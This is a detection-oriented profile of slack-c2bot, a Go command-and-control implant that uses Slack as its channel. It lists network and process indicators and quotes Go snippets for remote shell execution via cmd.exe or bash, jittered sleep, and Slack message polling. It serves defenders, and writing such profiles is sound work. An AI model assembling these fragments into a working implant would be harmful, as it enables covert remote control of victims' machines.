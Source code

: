 # slack-c2bot

## Table of Contents

- [slack-c2bot](#slack-c2bot)
  - [Table of Contents](#table-of-contents)
  - [Metadata](#metadata)
  - [Description](#description)
  - [Documentation](#documentation)
  - [Indicators](#indicators)
  - [Capabilities](#capabilities)
    - [Execute Commands via SHELL](#execute-commands-via-shell)
  - [Functionalities](#functionalities)
    - [handleSleep](#handlesleep)
    - [postMsg](#postmsg)
    - [GetChannelHistory](#getchannelhistory)

## Metadata

- Evaluator(s): [Nasreddine Bencherchali (@nas_bench)](https://twitter.com/nas_bench)
- Date: 24/01/2022
- Modified: 24/01/2022
- Source: [slack-c2bot](https://github.com/praetorian-inc/slack-c2bot)
- Implementation: Golang

## Description

> Slack C2bot is a Golang C2 that uses Slack as C&C channel

## Documentation

- [Slack C2bot - Usage](https://github.com/praetorian-inc/slack-c2bot#usage)
- [Using Slack Web Services as a C2 Channel (ATT&CK T1102)](https://www.praetorian.com/blog/using-slack-as-c2-channel-mitre-attack-web-service-t1102/)

## Indicators

| Description        | Indicator                                                                                                          | Reference                          |
|--------------------|--------------------------------------------------------------------------------------------------------------------|------------------------------------|
| HTTP Post Request   | ```https://slack.com/api/chat.postMessage``` | [Post Message](#postmsg) |
| HTTP Get Request   | ```https://slack.com/api/channels.history``` | [Get Channel History](#getchannelhistory) |
| User-Agent   | ```Go-http-client/1.1``` | [Get Channel History](#getchannelhistory)<br />[Post Message](#postmsg) |
| Process Creation (Windows)   | ```cmd.exe /c [COMMAND]``` | [Execute Commands via SHELL](#execute-commands-via-shell) |
| Process Creation (Linux)   | ```bash -c [COMMAND]```| [Execute Commands via SHELL](#execute-commands-via-shell) |

## Capabilities

### Execute Commands via SHELL

- Description: Execute commands sent from channel on the host
- Source Reference:
  - https://github.com/praetorian-inc/slack-c2bot/blob/master/implant.go#L34
- Indicators:
  - WINDOWS:
    - Call the `cmd.exe` binary with the `/C` flag

        ```go
        func runCmd(cmd string) string {
            .....
            if runtime.GOOS == "windows" {
                shell = "cmd.exe"
                shell_arg = "/C"
            }
            myCmd := exec.Command(shell, shell_arg, cmd)
            .....
        ```

  - LINUX:
    - Call the `bash` shell with the `-c` flag

        ```go
        func runCmd(cmd string) string {
            shell := "bash"
            shell_arg := "-c"
            .....
            myCmd := exec.Command(shell, shell_arg, cmd)
            .....
        ```

## Functionalities

### handleSleep

- Description: Handle sleep period of the agent
- Source Reference:
  - https://github.com/praetorian-inc/slack-c2bot/blob/master/implant.go#L25
- Indicators:
  - The default `sleep` value is `60` with applied jitter of 1 to 4. This means that the agent could sleep between a minimum value of `1 minute` and a max value of `4 minutes`

    ```go
    func handleSleep(sleep int) {
        rand.Seed(time.Now().UnixNano())
        min := 1
        max := 5
        num := rand.Intn(max - min) + min
        sleepWithJitter := sleep * num
        time.Sleep(time.Duration(sleepWithJitter) * time.Second)
    }
    ```

### postMsg

- Description: Post a message to a slack channel
- Source Reference:
  - https://github.com/praetorian-inc/slack-c2bot/blob/master/implant.go#L53
- Indicators:
  - Send `POST` request to the following URL: `https://slack.com/api/chat.postMessage`

    ```go
    ......
    func postMsg(api *slack.Client, chan_id string, msg string) {
        channelID, timestamp, err := api.PostMessage(chan_id, slack.MsgOptionText(msg, false))
    ......
    ```

  - The `slack` API package uses the `net/http` package behind the scene and since it doesn't specify any custom User-Agent, all request should be made using the default User-Agent: `Go-http-client/1.1`

### GetChannelHistory

- Description: Request a slack channel message history
- Source Reference:
  - https://github.com/praetorian-inc/slack-c2bot/blob/master/implant.go#L75
- Indicators:
  - Send `GET` request to the following URL: `https://slack.com/api/channels.history` (Note that this API has been deprecated and replaced by the `conversations.history` API)

    ```go
    historyParams := slack.HistoryParameters{Latest: "", Oldest: "0", Count: 2, Inclusive: false, Unreads:false,}
    history, err := api.GetChannelHistory(channel_id, historyParams)
    ```

  - The `slack` API package uses the `net/http` package behind the scene and since it doesn't specify any custom User-Agent, all request should be made using the default User-Agent: `Go-http-client/1.1`
